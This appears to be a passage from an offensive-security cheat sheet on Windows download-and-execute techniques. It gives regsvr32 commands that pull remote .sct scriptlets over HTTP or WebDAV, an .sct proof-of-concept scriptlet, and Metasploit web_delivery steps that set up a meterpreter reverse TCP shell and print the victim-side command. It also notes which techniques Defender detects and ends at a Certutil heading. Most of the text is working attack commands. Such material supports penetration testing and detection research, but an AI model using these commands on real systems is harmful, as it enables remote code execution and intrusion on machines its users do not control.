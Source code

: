 ## Regsvr32

```bash
regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
```

Process performing network call: **regsvr32.exe**  
Payload written on disk: **IE local cache**

```text
regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
```

Process performing network call: **svchost.exe**  
Payload written on disk: **WebDAV client local cache**

**Detected by defender**

#### Regsvr32 -sct

```markup
<?XML version="1.0"?>
<!-- regsvr32 /u /n /s /i:http://webserver/regsvr32.sct scrobj.dll -->
<!-- regsvr32 /u /n /s /i:\\webdavserver\folder\regsvr32.sct scrobj.dll -->
<scriptlet>
<registration 
    progid="PoC"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            var r = new ActiveXObject("WScript.Shell").Run("calc.exe");    
        ]]>
</script>
</registration>
</scriptlet>
```

**Extracted from** [**here**](https://gist.github.com/Arno0x/81a8b43ac386edb7b437fe1408b15da1)

#### **Regsvr32 - Metasploit**

```bash
use multi/script/web_delivery
set target 3
set payload windows/meterpreter/reverse/tcp
set lhost 10.2.0.5
run
#You will be given the command to run in the victim: regsvr32 /s /n /u /i:http://10.2.0.5:8080/82j8mC8JBblt.sct scrobj.dll
```

**You can download & execute very easily a Koadic zombie using the stager regsvr**

## Certutil

Download a B64dll, decode it and execute it.
